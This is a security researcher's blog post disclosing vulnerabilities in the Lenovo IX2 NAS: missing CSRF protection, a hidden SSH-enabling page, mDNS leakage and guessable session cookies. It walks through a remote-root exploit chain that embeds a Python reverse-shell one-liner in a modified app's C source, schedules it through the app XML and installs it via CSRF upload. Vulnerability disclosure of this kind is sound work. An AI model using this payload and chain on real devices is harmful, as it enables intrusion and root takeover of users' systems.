 #date: 2014-1-6 20:33:00 GMT
#slug: lenovo-ix2-csrf-root
#tags: lenovo,ix2,csrf,root,shell
#title: Lenovo IX2 Remote Root(CSRF), Multiple Vulnerabilities
#author: Jon Lamendola
#type: text

Over the holidays, we did an internal hackathon. I had access to a Lenovo IX2 NAS device, and I love breaking physical boxes - of course I had to go for it as my target. It's a simple ARM device running LifeLine Linux, a distribution designed by Lenovo to run on their NAS devices, both consumer and enterprise level. Within 5 minutes of opening the box and turning it on, I noticed there's absolutely no CSRF protection on any pages. 

So naturally, I spent a good deal of time looking for SQL/Command Injection. I came up with nothing. They sanitize all input fields very well. So I continued digging around on the device, with my sights set on getting a root shell. I discovered that you can turn on SSH, as well as set the SSH port/password via a hidden /manage/diagnostics.html page, that once again doesn't have CSRF protection on it. That was something, but seeing as how most of these devices are behind a firewall, the SSH was fairly useless from a remote attacker standpoint. 



I noticed an 'Applications' page on the device, that allows users to extend the functionality of their NAS device by installing third party apps. I started by trying to upload simple shell/php/cgi scripts, but with no luck. It's pretty picky about the formatting. I then tried to upload a valid third party app available from their lifelineapps store, and noticed it was in a strange .o2 file. After running the file command on it, turns out it's just a dpkg. 

I tried modifying files inside it and installing, but at compilation it creates an encrypted md5 hidden somewhere inside the .o2 file, making my modified .o2 invalid. After some searching around, I found the SDK available at http://www.developer.lifelineapps.com, available for the price of an email address. Unfortunately, it's not very well documented, and I didn't have a whole lot of time to figure out how their compiler expects the apps to be built. So I went for plan b - make an evil app from a demo. I downloaded the source for the Resource Monitor app, which is available once you've signed up for the SDK. 

Here's how I got a remote root shell running via CSRF.
  
**Lenovo IX2**
  
First, I opened up the main.c file inside the 'cpumon' folder. Pretty simple C program that retrieves system resource information, and prints it out into a JSON object. Here's what my modifications looked like:
```c
#include <stdlib.h>

printf("\"swapUsed\": \"%d\"", swapUsed); // in original code, 
	printf("}");						  // included as a reference point
	//python reverse connectback shell from http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
	system("python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.0.2.112\",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);\'"); 
```

After modifying the main.c file, I compiled the app from the 'resmon' folder using 'make target=arm-ix2-ng', and packed it into the required .tar.gz, assuming it would run upon install. Nope. I was able to get the shell to spawn by manually sshing in and executing, so I knew it was working as intended, but it wouldn't run. After some digging around, and a whole lot of frustration, I found the application.xml file had some options I could use to my advantage, particularly the cgibinDir option. 

I added the following to the application.xml files existing options:
```xml
<application cgibinDir="Yes" safeApp="Yes" isSecureUI="Yes"">
	<executable restartOnReboot="Yes" runOnce="No" sequence="1000" minutes="30" scheduled="Yes" />
</application>

```
The options will enable the cgi bin directory to be navigable, set the executable to run at boot and schedule it to run every 30 minutes. The compiler is so kind as to create a symlink to the cpumon executable in the cgi directory(remember we can't modify any files after compilation or it will break). Alright, so now we've got an evil installer that can be run via CSRF, but how do we go about exploiting it?

The first step is to generate the CSRF file upload. This can be done using an XMLHTTPRequest, which burp is handy enough to make with just a few clicks. There are two ways we can go about finding the IP of the internal device: 1, we can use the default mdns(ix2-dl.local) and hope the user hasn't changed it, or two, we can use webRTC to reveal the internal netmask and then force the user to ping scan their own network via XMLHTTPRequests. The PoC's for both are available on request. The exploit then sends the payload to all live IP's. Once the file has been uploaded, the executable should run automatically, as we've set it to be a scheduled with the application.xml. If it doesn't run for some reason, or you want to force it to run outside of the scheduled timing, that's why we set up the cgibinDir option. Simply navigate to http:ix2-dl.local/cpumon/cpumon-cgi/cpumon(no auth required), and we have a shell!

**Demonstration Video**
<iframe src="//player.vimeo.com/video/83540983" width="500" height="281" frameborder="0" webkitallowfullscreen mozallowfullscreen allowfullscreen></iframe> <p><a href="http://vimeo.com/83540983">Lenovo ix2-dl Root via CSRF</a> from <a href="http://vimeo.com/andyet">&amp;yet</a> on <a href="https://vimeo.com">Vimeo</a>.</p>

**Alright, so who's vulnerable?**
Any device running the Lenovo LifeLineEMC software version 4.0.6.19294 and prior is vulnerable. Simply change the compile target and rebuild. It does require that the user who visits the malicious page be logged in as admin, however.

**Hidden Page allows user to enable SSH and set Port+Password**
Example: http://ix2-dl/manage/diagnostics.html
This page allows a user to set the root SSH password and port, prefixed by the easily bruteforced word 'soho'. I.E. password test requires a logon password of sohotest. It appears this is intended behavior, but is a huge risk given that there are no anti-CSRF tokens present on the page.

**Information Leakage**
The Lenovo device automatically sets the internal address to http://ix2-dl.local via MDNS. This makes it a whole lot easier to exploit the formentioned CSRF Vulnerabilities.

**Weak Session Cookies**

The Lenovo IX2-DL appears to set session cookies as
```
<User IP Address>.<Current Epoch Time>. 
```
This is not an adequate amount of entropy to prevent bruteforcing. In reality, an attacker only needs to guess 7-8 numeric characters before he has an authenticated session. Adding a secret nonce and hashing of the value before making it a session cookie would make the session cookie much more difficult to bruteforce.

